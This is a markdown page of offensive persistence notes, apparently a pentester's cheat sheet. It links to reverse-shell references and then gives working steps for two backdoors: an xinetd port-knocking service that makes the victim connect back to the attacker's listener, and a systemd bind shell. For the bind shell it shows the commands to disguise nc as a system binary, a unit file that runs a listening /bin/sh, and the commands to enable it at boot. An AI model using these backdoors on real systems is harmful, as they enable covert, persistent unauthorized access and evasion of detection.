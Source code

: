 - [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [highOn.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  

### Xinetd port knocking backdoor

> Solution will persist acreoss reboots and initiates connection after knocking on a specific UDP port

1. Create xinetd service on target machine  

Use the [[xinetd.sh]] script file or look [here](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)  

2. Replace the IPs in the file and execute it  

This will create a new service (`services-udp`) on the victim machine listening on port `65534 udp` 

- `nc` required on victim

3. Attacker start listener listening on port `4444` (altered in script)  

4. Knock on the udp port and trigger backconnect to your listener shell  

```bash
hping -2 -c 1 <targetIP> -p 65534
```

### Bind shell with systemd  

1. On the victim copy nc and masquerade the binary  

```bash
cp /bin/nc /lib/systemd/systemd-service
```  

2. Victim: create a Service file  

```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

This service will start after the networking service is up and execute `nc` listening on port `56825` for incoming connections  

3. Victim IMPORTANT: enable the service for autostart  

```bash
systemctl enable systemd.service
systemctl start systemd.service
``` 

4. Victim: Check if the service is up and port listening  

```bash
netstat -auntp | grep 56825
``` 
